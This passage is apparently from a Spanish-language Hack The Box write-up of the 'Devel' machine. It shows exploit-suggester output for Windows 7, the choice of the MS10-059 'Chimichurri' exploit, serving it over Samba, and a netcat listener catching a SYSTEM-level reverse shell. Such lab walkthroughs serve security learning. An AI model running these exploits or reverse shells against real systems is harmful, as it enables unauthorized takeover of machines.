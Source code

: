 ```console
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (977165) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
Esto me arrojara un montón de exploit que podemos usar para esta máquina.

El que mas destaca es el siguiente: `MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important`

Rápidamente realizo una busqueda en google y encuentro el siguiente exploit: [MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled).

Lo descargo, me monto un servidor con samba compartiendo el `Chimichurri.exe` y ejecuto el exploit directamente desde mi servidor con samba.
![](https://lh4.googleusercontent.com/7YG2hO8Av15mXUeaI-ueQ6sSBCYmHQpjr4AsEFszTv-pYVHUOmGnoJjjhGPCvWzGodIDULGpThYKHpdm690KYJRRQeEg72XPNLJyAHDXVNuyET39Ek4oNPkzpTm1h0YHUJSLf3C_)

```console
intrusionz3r0@kali:~$ rlwrap nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.20] from devel.htb [10.10.10.5] 49190
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system

c:\windows\system32\inetsrv>hostname
hostname
devel

c:\windows\system32\inetsrv>
```
